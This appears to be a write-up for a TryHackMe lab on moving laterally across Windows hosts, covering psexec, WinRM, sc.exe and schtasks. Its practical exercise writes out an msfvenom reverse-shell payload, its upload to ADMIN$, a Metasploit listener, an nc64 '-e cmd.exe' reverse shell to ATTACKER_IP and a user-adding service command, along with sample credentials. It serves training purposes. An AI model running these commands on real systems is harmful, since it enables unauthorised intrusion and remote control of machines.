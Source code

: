 # Spawning Processes Remotely

This task explores the methods attackers can use to spawn processes remotely, enabling them to execute commands on machines where they have valid credentials. Each technique discussed has unique characteristics and may be better suited for specific scenarios.

---

## Psexec

- **Ports**: 445/TCP (SMB)  
- **Required Group Memberships**: Administrators  

Psexec has been a popular method for executing processes remotely for years. It allows an administrator to run commands on any PC where they have access. Psexec is part of the Sysinternals Tools suite and can be downloaded [here](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec).

### How Psexec Works:
1. Connects to the `Admin$` share and uploads a service binary (`psexesvc.exe`).
2. Creates and runs a service named `PSEXESVC` associated with `C:\Windows\psexesvc.exe`.
3. Establishes named pipes to handle `stdin`, `stdout`, and `stderr`.

### Example Command:
```bash
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

---

## Remote Process Creation Using WinRM

- **Ports**: 5985/TCP (WinRM HTTP), 5986/TCP (WinRM HTTPS)  
- **Required Group Memberships**: Remote Management Users  

Windows Remote Management (WinRM) is a web-based protocol for sending PowerShell commands to Windows hosts remotely. Most Windows Server installations have WinRM enabled by default.

### Command Line Example:
```bash
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```

### PowerShell Example:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

Enter-PSSession -Computername TARGET -Credential $credential
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

---

## Remotely Creating Services Using `sc`

- **Ports**:  
    - 135/TCP, 49152-65535/TCP (DCE/RPC)  
    - 445/TCP, 139/TCP (RPC over SMB Named Pipes)  
- **Required Group Memberships**: Administrators  

Windows services can execute arbitrary commands when started. Using `sc.exe`, a standard Windows tool, we can create and start services remotely.

### Example Commands:
```bash
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

---

## Creating Scheduled Tasks Remotely

Scheduled Tasks can also be used to execute commands remotely. The `schtasks` utility is available on all Windows installations.

### Example Commands:
```bash
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00
schtasks /s TARGET /run /TN "THMtask1"
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

---

## Practical Exercise

### Connecting to THMJMP2
1. Retrieve credentials from [this link](http://distributor.za.tryhackme.com/creds).
2. Connect to THMJMP2 via SSH:
     ```bash
     ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
     ```

### Using `sc.exe` to Move Laterally
1. Generate a reverse shell payload:
     ```bash
     msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
     ```
2. Upload the payload to the `ADMIN$` share:
     ```bash
     smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
     ```
3. Set up a listener:
     ```bash
     msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444; exploit"
     ```
4. Spawn a reverse shell using `runas`:
     ```bash
     runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
     ```
5. Create and start a service remotely:
     ```bash
     sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
     sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
     ```

---

**Note**: Always clean up after yourself by deleting any created services or tasks.
